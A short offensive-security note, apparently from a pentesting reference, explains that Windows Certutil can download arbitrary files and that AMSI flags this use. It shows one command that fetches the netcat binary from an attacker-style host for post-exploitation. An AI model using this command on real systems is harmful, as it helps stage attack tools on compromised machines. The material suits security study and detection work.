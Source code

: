 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Tooling
---
```


Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.


```cmd-session
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```